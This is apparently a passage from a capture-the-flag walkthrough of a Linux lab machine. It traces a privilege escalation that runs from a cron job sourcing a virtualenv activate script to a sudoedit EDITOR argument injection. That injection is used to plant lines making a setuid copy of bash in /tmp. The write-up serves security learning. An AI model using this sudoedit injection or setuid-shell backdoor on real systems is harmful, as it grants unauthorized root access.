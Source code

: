 ```ruby
2024/11/30 17:10:01 CMD: UID=1001  PID=29342  | /bin/sh -c /app/test_and_update.sh                                                                    
2024/11/30 17:10:01 CMD: UID=1001  PID=29349  | /bin/bash /app/test_and_update.sh                                                                     
2024/11/30 17:10:01 CMD: UID=1001  PID=29348  | /bin/bash /app/test_and_update.sh      
```

It looks like `/app/test_and_update.sh` is running every minute.

Let's take a look at what's in it.

```bash
edwards@agile:/app$ cat test_and_update.sh 
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

Bingo! `test_and_update.sh` file contains `source /app/venv/bin/activate`.
If we edit this file, probably we can run any command as `root`.

```bash
edwards@agile:/app$ EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/config_test.json
[sudo] password for edwards: 
3 files to edit
sudoedit: -- unchanged
sudoedit: /app/config_test.json unchanged


# EDIT /app/venv/bin/activate!!!

# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly

# I added 2 lines below!!!
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
##########################

deactivate () {
    # reset old environment variables
    if [ -n "${_OLD_VIRTUAL_PATH:-}" ] ; then
        PATH="${_OLD_VIRTUAL_PATH:-}"

```